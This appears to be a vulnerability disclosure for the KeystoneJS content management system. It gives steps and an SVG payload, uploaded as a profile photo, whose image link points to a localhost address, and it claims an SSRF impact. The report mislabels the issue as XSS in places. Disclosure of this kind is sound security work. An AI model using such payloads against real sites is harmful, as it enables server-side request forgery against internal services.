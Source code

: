 # :book: Description


 `KeystoneJS` is a powerful Node.js content management system and web app framework built on the Express web framework and Mongoose ODM. Keystone makes it easy to create sophisticated web sites and apps, and comes with a beautiful auto-generated Admin UI. This package is vulnerable for `(XSS)`.

https://github.com/keystonejs/keystone-classic

# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/keystonejs/keystone-classic use demo http://demo.keystonejs.com/
  1) upload svg file as user profile photo. Payload used :
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="position:relative" width="300" height="200" overflow="hidden">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg"/>
<path d="M0 150h300v10H0z"/>
</svg>
```
# :telescope: POC

https://drive.google.com/file/d/1Rqsbr9_ijoHOa949B9Q1cM2jv8jb4zwV/view?usp=sharing
## 💥 Impact
SSRF
